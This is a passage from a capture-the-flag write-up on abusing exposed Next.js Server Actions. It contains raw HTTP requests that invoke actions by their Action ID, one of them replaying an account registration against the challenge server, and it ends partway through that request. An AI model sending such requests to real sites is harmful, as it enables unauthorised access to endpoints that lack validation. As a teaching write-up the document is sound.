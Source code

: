 ```ts
    return new NextResponse(null, { status: 403 });
  }
  response.headers.set("Content-Security-Policy", "script-src 'none';");
  return response;
}

export const config = {
  matcher: "/:path*",
};
```

If there was no such middleware, one could have simply sent the following request to invoke a Server Action with arbitrary parameters (not that it really matters, since we could call the Server Actions using Forms and requests for bounded actions anyway):

```
POST / HTTP/2
Host: www.example.com
Content-Type: text/plain; charset=UTF-8
Next-Action: 5033aa9e8e719350ff01f9a353595d64a7488812
Content-Length: XXX

[1337]
```

Great... So, what does all this mean for us? Essentially, as Next.js have kept on emphasizing throughout its documentation, `"You should basically treat Server Actions as public HTTP endpoints."` This means validation is a must when working with Server Actions, as they're accessible to clients and potentially vulnerable if mishandled. In the case of this challenge application, several unused Server Actions without proper validation were left exposed, making them accessible to all clients.

Now with all that said, much of the findings above were gathered after the CTF to deepen my understanding of how things work in Next.js under the hood.
However, during the competition, my approach to securing first blood on the challenge was far from structured. I went into full keyboard-smashing mode, my brain went brrr, and with just a quick skim through the documentation, the flag somehow appeared.

## Exploitation

Cool, with the knowledge-sharing done! Let's take a look at the exploitation now :)

We start by setting up a local instance, where the registration page is modified by uncommenting the code for the forms in order for us to register a user locally. By replaying the request against the live server using the same Action ID, we could register a user successfully.

```
POST / HTTP/2
Host: ikutoppene-XXXX-shop-6.ept.gg
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Length: 472

------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_ID_22848b167831802fadcb34db9cc648e9d77b665f"


------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="username"

shirajuki
------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="password1"

asdzxc123
------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="password2"

```